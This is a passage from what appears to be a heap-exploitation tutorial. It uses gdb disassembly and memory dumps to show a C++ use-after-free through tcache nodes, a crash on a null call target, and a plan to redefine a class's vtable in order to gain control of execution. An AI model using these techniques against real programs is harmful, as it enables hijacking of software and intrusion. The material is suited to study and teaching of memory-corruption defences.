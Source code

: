 The extra *free*'d string buffer gives us one more node to traverse in the tcache list:

```
(gdb) x/5i $pc
=> 0x400d28 <main()+282>:       mov    rax,QWORD PTR [rax]
   0x400d2b <main()+285>:       mov    rdx,QWORD PTR [rax]
   0x400d2e <main()+288>:       mov    rdx,QWORD PTR [rdx]
   0x400d31 <main()+291>:       mov    rdi,rax
   0x400d34 <main()+294>:       call   rdx
   
(gdb) x/4gx $rax
0x6f2750:       0x00000000006f2ba0    0x00000000006e01d0
0x6f2760:       0x0000000000000000    0x0000000000000411

(gdb) x/4gx 0x00000000006f2ba0
0x6f2ba0:       0x00000000006f2b80    0x00000000006e01d0
0x6f2bb0:       0x0041414141414141    0x000000000000f451

(gdb) x/4gx 0x00000000006f2b80
0x6f2b80:       0x0000000000000000    0x00000000006e01d0
0x6f2b90:       0x0041414141414141    0x0000000000000021
```

This completes the dereference path, but points it to data that we almost control. Here, it will make it to CALL RDX, but RDX will be zero, the value of 0x6f2b80.

```
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()

(gdb) bt
#0  0x0000000000000000 in ?? ()
#1  0x0000000000400d36 in main ()
```

Recall from the earlier section on virtual functions that the vtable may adjust the target quadword that is dereferenced. If we add more virtual functions, we should be able to gain some control over execution.

Right now, the vtable looks like this, because it has one virtual function:

```
offset  target function
------  ----------------
 0x0     do_something
```

Let's redefine `Item` to include one new virtual function:

```c++
class Item {
public:
  virtual void foo();
  virtual void do_something();
};
```

